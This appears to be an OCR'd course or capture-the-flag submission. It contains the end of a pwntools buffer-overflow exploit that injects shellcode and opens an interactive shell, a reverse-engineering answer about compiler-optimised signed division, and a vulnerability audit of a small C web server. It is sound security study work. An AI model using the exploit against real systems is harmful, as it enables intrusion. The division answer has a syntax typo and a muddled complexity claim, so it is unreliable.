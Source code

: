 ```
			useful_int = int(useful, 16)
			useful_int_p32 = p32(useful_int)
								
			io_rdy(io)
			
			pay1 = fit({40: shell_asm, 171: str(useful_int_p32)}, filler = '\x90', length = 190)
			app_input(io, pay1, 191)
			
			buf = app_dump(io)
			print("buf is: "+str(buf))
			
			app_impulse(io, "d")
			io.interactive()
			
			stage = stage + 1
		else:
			print("done. Awesome!")
			fin = 1

			
			

if __name__ == '__main__':
	main()

```

re
------------------------
 > You need to submit the most simplified version of C that would compile into the supplied assembly 
 ```
 int quick_idiv(int a, int b) { 
    return a \ b; 
}
 ```

Now the **comments**: 
* What does it do: **signed** integer division
* It's the GCC "thing" - since x86 int division is relatively slow, it tries to work around it with shifts, hacks (multiplying my multiplicative inverse of the number) and other simplifications to statistically increase the O() time. While not 100% always faster, it tends to be faster than what x86 has to offer. Similarly to, say, Karatsuba multiplication or Hamming code (credits to 3821)


 webserver.c 
 ----------------------
 Vulns 
 ## Found vulns: 13
 1+2. write_socket() & read_socket() functions in lines 16 and 37 resp. - incorrect bytes counting. Instead of adding one byte at a time, the program will add the {pointer size} many bytes every time, which will, in case of 32 bit, be 4 bytes. This vulnerability can lead to controllable data injections & leakages respectively
 3. Again, line 57. You even facilitate vuln #2, by removing the NULL terminator from being considered in the buffer
 4. Line 103: "    fclose(file);" is executed if and only if things go right. If they don't, such as in the case of line 78 if-statement. The file pointer remains present in the program which may be exploited later
 5. Lines 110 and 127. Buf's initially allocated to contain 100 chars, however later on, the 1000 of them are read, causing data leakage
 6. Lines 87-91. If x is at it's peak value of (x-1), in line 91 it may read buf[x+1], making the second if-condition either always  true or false in that case, and conversely causing a tiny mem leak (I mean, you'd leak the possible value of one unrelated byte)
 7. Lines 83, 86 and others. Incorrect maths of write_socket() may change the considered size of buf in line 86, causing memset to zero out much more data than it's supposed otherwise